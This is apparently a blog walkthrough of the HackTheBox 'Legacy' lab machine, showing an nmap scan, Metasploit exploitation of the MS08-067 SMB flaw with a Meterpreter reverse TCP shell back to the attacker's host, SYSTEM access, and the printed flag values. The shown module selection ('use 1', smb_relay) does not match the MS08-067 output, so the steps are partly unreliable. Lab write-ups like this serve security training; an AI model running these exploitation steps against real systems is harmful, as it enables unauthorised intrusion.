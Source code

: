 ```yaml
---
title: "HTB Walkthrough: Legacy"
date: 2023-04-02T22:46:30-04:00 
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/legacy/Legacy.png
tags:
  - Easy
  - Windows Host
  - SAMBA
  
---
```


![Legacy Logo](/assets/images/HTB/legacy/Legacy.png)  

---

## Initial Scanning  


Let's run our port scanner to identify active TCP services.  

### TCP Port Scan  

Start a long scan:  

```bash
$ cat nmap_full.log                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-02 04:07 EDT
Warning: 10.10.10.4 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.4
Host is up (0.080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (95%), Microsoft Windows XP SP3 (95%), Microsoft Windows 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (92%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (92%), Microsoft Windows XP SP2 or SP3, or Windows Embedded Standard 2009 (92%), Microsoft Windows XP SP2 - SP3 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 005056b962df (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-04-07T13:09:37+03:00

```  

Right off the bat, we see outdated OS and SMB2, with an SMB OS of Windows XP (Windows 2000 LAN Manager).  

This box is screaming "MS08-067". [Here](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) is a link to more information about this common vulnerability.  


## Initial Access  

To save time, I ran the exploit in msfconsole, easily and quickly gaining initial access to the Windows machine.  

```bash
$ msfconsole
$ search ms08-067

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/windows/smb/ms08_067_netapi                    2008-10-28       great      Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
   1  exploit/windows/smb/smb_relay                          2001-03-31       excellent  No     MS08-068 Microsoft Windows SMB Relay Code Execution
   2  exploit/windows/browser/ms08_078_xml_corruption        2008-12-07       normal     No     MS08-078 Microsoft Internet Explorer Data Binding Memory Corruption
   3  auxiliary/admin/ms/ms08_059_his2006                    2008-10-14       normal     No     Microsoft Host Integration Server 2006 Command Execution Vulnerability
   4  exploit/windows/browser/ms08_070_visual_studio_msmask  2008-08-13       normal     No     Microsoft Visual Studio Mdmask32.ocx ActiveX Buffer Overflow
   5  exploit/windows/browser/ms08_041_snapshotviewer        2008-07-07       excellent  No     Snapshot Viewer for Microsoft Access ActiveX Control Arbitrary File Download
   6  exploit/windows/browser/ms08_053_mediaencoder          2008-09-09       normal     No     Windows Media Encoder 9 wmex.dll ActiveX Buffer Overflow
   7  auxiliary/fileformat/multidrop                                          normal     No     Windows SMB Multi Dropper


$ use 1

msf6 exploit(windows/smb/smb_relay) > options

Module options (exploit/windows/smb/smb_relay):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   CAINPWFILE                             no        Name of file to store Cain&Abel hashes in. Only supports NTLMv1 hashes. Can be a path.
   JOHNPWFILE                             no        Name of file to store JohnTheRipper hashes in. Supports NTLMv1 and NTLMv2 hashes, each of which is stored in separate files. Can also be a path.
   RELAY_TARGETS                          yes       Target address range or CIDR identifier to relay to
   RELAY_TIMEOUT         25               yes       Seconds that the relay socket will wait for a response after the client has initiated communication.
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             WORKGROUP        yes       The domain name used during SMB exchange.
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SRVHOST               0.0.0.0          yes       The local host to listen on.
   SRVPORT               445              yes       The local port to listen on.
   SRV_TIMEOUT           25               yes       Seconds that the server socket will wait for a response after the client has initiated communication.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.86     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

$ set rhosts 10.10.10.4
$ set lhost tun0
$ run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.4:1032) at 2023-04-02 04:30:31 -0400

$ shell
```  

Success! The first thing I tried was checking for a hostname and username (with whoami). The hostname returned as LEGACY but "whoami" was not a recognized command.  

To fix this, I remember that Kali has a copy of whoami.exe in /usr/share/windows-binaries/.  

Metasploit made the upload of this file easy with its "upload" command. Since I had ran "shell" after gaining a shell to make it interactive, we first had to exit it with CTRL+Z.  

After hitting CTRL+Z we could upload a file directly to the Windows machine by using the 'upload' meterpreter command.  

```bash
$ upload /usr/share/windows-binaries/whoami.exe
```  

Now, we can re-gain our interactive shell with the "shell" command and all that's left to do is run the executable.  

```bash 
$ shell

C:\WINDOWS\system32>whoami.exe
whoami.exe

NT AUTHORITY\SYSTEM
```  

We are already ROOT! Hooray.  

Let's just grab our flags, at this point.  

### Grabbing Flags  

```bash
cd C:\

C:\>cd "Documents and Settings"


C:\Documents and Settings>dir

 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings

16/03/2017  09:07 ��    <DIR>          .
16/03/2017  09:07 ��    <DIR>          ..
16/03/2017  09:07 ��    <DIR>          Administrator
16/03/2017  08:29 ��    <DIR>          All Users
16/03/2017  08:33 ��    <DIR>          john


cd Administrator/Desktop

C:\Documents and Settings\Administrator\Desktop>type root.txt

993442d258b0e0ec917cae9e695d5713
```  

Now just to grab the user flag.  

```bash
cd ../../john/Desktop

C:\Documents and Settings\john\Desktop>dir

 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\john\Desktop

16/03/2017  09:19 ��    <DIR>          .
16/03/2017  09:19 ��    <DIR>          ..
16/03/2017  09:19 ��                32 user.txt


C:\Documents and Settings\john\Desktop>type user.txt

e69af0e4f443de7e36876fda4ec7644f
```  

Voila.  



